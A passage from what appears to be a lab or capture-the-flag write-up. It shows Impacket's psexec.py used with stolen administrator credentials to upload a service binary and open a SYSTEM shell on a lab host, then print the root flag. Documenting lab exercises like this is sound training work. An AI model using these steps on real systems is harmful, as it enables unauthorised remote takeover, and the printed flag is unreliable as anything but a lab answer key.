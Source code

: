 
Now we have administrator credential.
Try to access with "psexec.py" which is installed by default in the package Impacket.
{% highlight shell %}
root@kali:~# /usr/share/doc/python-impacket/examples/psexec.py pentest@10.10.10.152
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file zNVocYtQ.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service aGrP on 10.10.10.152.....
[*] Starting service aGrP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
{% endhighlight %}

root.txt is in the directory "C:\Users\Administrator\Desktop"
{% highlight shell %}
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
3018977fb944bf1878f75b879fba67cc
{% endhighlight %}
